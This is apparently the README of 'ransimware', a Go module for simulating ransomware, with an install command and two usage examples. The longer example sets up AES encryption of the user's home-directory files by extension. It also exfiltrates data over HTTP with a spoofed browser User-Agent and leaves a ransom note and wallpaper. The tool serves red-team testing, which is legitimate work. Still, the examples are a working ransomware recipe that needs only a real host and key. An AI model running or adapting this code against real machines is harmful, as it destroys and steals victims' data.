 # Ransimware

[![Yum](https://img.shields.io/badge/-Buy%20me%20a%20cookie-blue?labelColor=grey&logo=cookiecutter&style=for-the-badge)](https://www.buymeacoffee.com/mjwhitta)

[![Go Report Card](https://goreportcard.com/badge/github.com/mjwhitta/ransimware?style=for-the-badge)](https://goreportcard.com/report/github.com/mjwhitta/ransimware)
![Lines of code](https://img.shields.io/tokei/lines/github/mjwhitta/ransimware?style=for-the-badge)
![License](https://img.shields.io/github/license/mjwhitta/ransimware?style=for-the-badge)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get --ldflags "-s -w" --trimpath -u \
    github.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop directory
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Include interesting extensions
    sim.Include(`\.(avi|mkv|mov|mp[34]|mpeg4?|ogg|wav)$`) // vids
    sim.Include(`\.(bmp|gif|ico|jpe?g|png|tiff)$`)        // imgs
    sim.Include(`\.(docx|pptx|txt|xlsx|zip)$`)            // docs
    sim.Include(`\.(bat|ps1|xml)$`)                       // misc

    // Ignore directories
    sim.Exclude(`All\sUsers|AppData.Local|cache2.entries|Games`)
    sim.Exclude(
        `Local\sSettings|Low.Content\.IE5|Program(Data|\sFiles)`,
    )
    sim.Exclude(`Tor\sBrowser|User\sData.Default.Cache|Windows`)

    // Ignore AnyConnect cache/config
    sim.Exclude(`\.cisco|Cisco`)

    // Ignore extensions
    sim.Exclude(`\.(bin|dll|exe|in[fi]|lnk|ransimware|sys)$`)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        rw.WallpaperNotify(
            filepath.Join(home, "Desktop", "ransom.png"),
            rw.DefaultPNG,
            rw.DesktopStretch,
            false,
        )()

        return nil
    }

    // Target the user's home directory
    if e = sim.Target(home); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://github.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
